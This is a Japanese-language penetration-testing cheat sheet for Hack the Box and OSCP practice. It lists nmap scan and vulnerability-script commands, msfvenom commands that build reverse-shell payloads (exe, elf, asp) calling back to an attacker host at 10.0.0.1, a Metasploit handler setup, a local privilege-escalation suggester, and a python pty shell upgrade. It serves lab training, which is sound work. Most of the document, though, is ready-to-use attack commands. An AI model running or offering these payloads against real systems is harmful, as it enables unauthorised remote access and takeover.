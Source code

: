 ## CheetSheet

Hack the Box の攻略や、OSCP 取得を目指すためのチートシートです。
悪用厳禁でお願いします><

日々更新していきます。

## 目次


- [Network Scan](#Network_scan)
  - [Nmap](#nmap)
- [侵入](#侵入)
  - [reverse_shell](#reverse_shell)
    - [msfvenom_reverse_shell](#msfvenom_reverse_shell)
      - Windows(meterpreter)
      - Windows(netcatなど)
      - Linux
      - ASP(msfvenom)
    - [Handlers](#Handlers)
- [特権エスカレーション](#特権エスカレーション)
  - [metasploit local_exploit_suggester](#metasploit(local_exploit_suggester))

- [便利コマンド](#便利コマンド)
    
  


# Network_scan

### Nmap

基本コマンド

```
nmap -Pn -A 10.10.10.11

-Pn : ICMPのみでなく80,443番ポートにもTCPパケットを送り、同セグメントではARPも送信しホストの存在を判断
-A : OSの種類とそのバージョンを検知


nmap -sV -sC -Pn -oN 10.10.10.5

-sC : デフォルトスクリプトでスキャン
-sV : バージョン検出
-oN : 通常出力
```

他に

```

nmap -sV -O -F --version-light 10.10.10.3


-sV: Probe open ports to determine service/version info
-O: Enable OS detection
-F: Fast mode - Scan fewer ports than the default scan
--version-light: Limit to most likely probes (intensity 2)


集中して大量にみたいときは、
nmap -A -v 10.10.10.3

-v  冗長性をあげる

```

全 port scan

```

nmap -A -p- -Pn 10.10.10.3

-p-: 全port scan

```


 known vulnerabilitiesに対して、調査したいとき

```
ex: port 445 に対して、

nmap -Pn -p 445 --script vuln 10.10.10.4

-p: Set destination port(s)

445: The open port we've discovered earlier

--script vuln: Check for specific known vulnerabilities and generally only report results if they are found
```

[参考](https://www.freecodecamp.org/news/keep-calm-and-hack-the-box-legacy/)

# 侵入

## reverse_shell

### msfvenom_reverse_shell

[CheetSheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

#### Windows(meterpreter)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443  EXITFUNC=thread -f exe -a x86 --platform windows -o reverse.exe
```
#### Windows(netcatなど)
```
msfvenom -p windows/shell_reverse_tcp lhost=10.0.0.1 lport=4444 –f exe > reverse.exe
```

#### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f elf -o reverse.elf
```

#### ASP(msfvenom)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<Port Number> -f asp > reverse.asp
```


#### Handlers
```
use exploit/multi/handler
set payload <payload>   (set payload windows/meterpreter/reverse_tcp など)
set LHOST <ip address>
set LPORT <port number>
run
```


# 特権エスカレーション

## metasploit(local_exploit_suggester)

[https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/recon/local_exploit_suggester.md](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/recon/local_exploit_suggester.md)

meterpreterでシェルを手に入れている場合、local_exploit_suggesterを使うことで、特権昇格に使える exploit を探すことができる

```jsx
background

use post/multi/recon/local_exploit_suggester
```

# 便利コマンド


### シェル整形

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

-c: command
              Specify  the  command  to  execute.

pty: pty モジュールは擬似端末(他のプロセスを実行してその制御をしている端末をプログラムで読み書きする)
     を制御する操作を定義

pty.spawn: プロセスを生成して制御端末を現在のプロセスの標準入出力に接続する。
            これは制御端末を読もうとするプログラムをごまかすために利用される。


ファイル探索

Windws:

```
search -f user.txt
```

